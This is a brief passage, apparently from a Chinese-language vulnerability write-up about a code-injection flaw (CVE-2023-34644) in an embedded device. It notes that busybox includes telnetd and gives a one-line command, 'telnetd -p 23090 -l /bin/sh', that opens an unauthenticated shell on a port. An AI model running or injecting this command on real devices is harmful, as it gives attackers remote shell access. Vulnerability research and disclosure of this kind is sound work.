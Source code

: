 ![image-20250214161033551](./assets/CVE-2023-34644代码注入/image-20250214161033551.png)

此外，`telnetd` 是 `busybox` 程序中集成的一个服务，所以在嵌入式设备中一般都可以进行开启

```shell
telnetd -p 23090 -l /bin/sh
```

我们也可以这样获得一个shell
